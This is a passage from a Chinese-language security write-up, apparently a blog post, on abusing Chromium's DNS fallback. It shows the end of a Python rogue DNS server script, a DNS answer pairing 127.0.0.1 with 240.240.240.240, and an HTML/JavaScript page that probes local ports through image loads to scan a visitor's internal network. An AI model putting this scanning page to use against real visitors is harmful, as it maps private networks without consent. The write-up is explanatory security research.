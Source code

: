 ```
        return reply
logger = DNSLogger(prefix=False)
resolver = TestResolver()
server = DNSServer(resolver,port=53,address="0.0.0.0",logger=logger)
server.start_thread()
try:
    while True:
        time.sleep(1)
        sys.stderr.flush()
        sys.stdout.flush()
except KeyboardInterrupt:
    pass
finally:
    server.stop()
```



## 利用二：端口扫描

是不是发现DNS Fallback的机制还蛮有趣的？这个部分我们来谈谈如何利用这个机制进行内网端口扫描。

办法很直接，很容易就能想到，假设DNS解析结果长这样：

```
;; ANSWER SECTION:
example.com.    0    IN    A    127.0.0.1
example.com.    0    IN    A    240.240.240.240
```

因为：Chromium总是会首先把域名解析到 `127.0.0.1` ，而只有在连接`127.0.0.1`失败的时候，才会尝试去连接 `240.240.240.240`。所以说，我们可以利用这个现象来检测端口是不是开放的。

### <a class="reference-link" name="%E5%BC%80%E5%A7%8B%E6%94%BB%E5%87%BB"></a>开始攻击

基于浏览器的端口扫描恶意源码:

```
&lt;!doctype html&gt;
&lt;html&gt;
&lt;body&gt;
  &lt;div id="images"&gt;
  &lt;div&gt;
&lt;/body&gt;
&lt;script&gt;
  var images = document.getElementById("images");
  for (let port = 13337; port &lt; 13340; port++) `{`
    let img = document.createElement("img");
    img.src = `//example.com:$`{`port`}``;
    images.appendChild(img);
  `}`
&lt;/script&gt;
&lt;/html&gt;
```
